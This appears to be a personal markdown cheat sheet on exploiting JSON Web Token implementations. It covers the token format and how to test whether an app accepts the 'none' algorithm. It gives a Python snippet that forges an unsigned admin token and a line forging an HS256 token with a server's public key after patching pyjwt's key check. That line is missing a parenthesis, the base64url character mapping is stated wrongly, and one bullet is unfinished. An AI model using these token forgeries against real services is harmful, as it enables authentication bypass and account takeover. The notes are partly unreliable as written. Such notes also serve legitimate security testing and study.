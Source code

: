 # jwt 
Jwt.io can be used to generate tokens with a given secret. 

## jwt reading
https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

## jwt format
base64urlencode(json header).base64urlencode(json payload).base64urlencode(signature)
- note that  base64 != base64urlencoded
- In the  jwt, base64 "+" becomes "-" , "_" => "/" and "=" is dropped

## jwt security
Some implementations fail to disable use of "none" algorithm; this results 
in a user's ability to send arbitrary requests because the application won't
verify them.

## exploting
- always: check if an app will accept a "none" algorithm.
- always: check the order of your tokens if you're getting errors. Some
implementations will be pickey about this, for example if we have something
like : {"typ":"JWT","alg":"None"}, that != {"alg":"None","typ":"JWT"}
- if: you're getting errors, with none,

## python script to accomplish the above
Note python package "jwt" != "pyjwt", but iirc both result in needing to import
"jwt", which can then result in some confusion. For the below, pyjwt was used.

```python
#!/usr/bin/env python3
import time
import jwt
encoded = jwt.encode({'login': 'admin',"iat":int(time.time())}, None, algorithm=None)
print(encoded)
```

## trying to break RS256 algorithms, by sending JWT with HS256 alg,  signed with
## public key from server
# it's just a basic string check ,we can bypass this by commenting out
# the relevent lines in :*/lib/python3.6/site-packages/jwt/algorithms.py
# grep or search for PUBLIC
encoded = jwt.encode({'login':'admin'},open('public','rb').read(),algorithm='HS256'
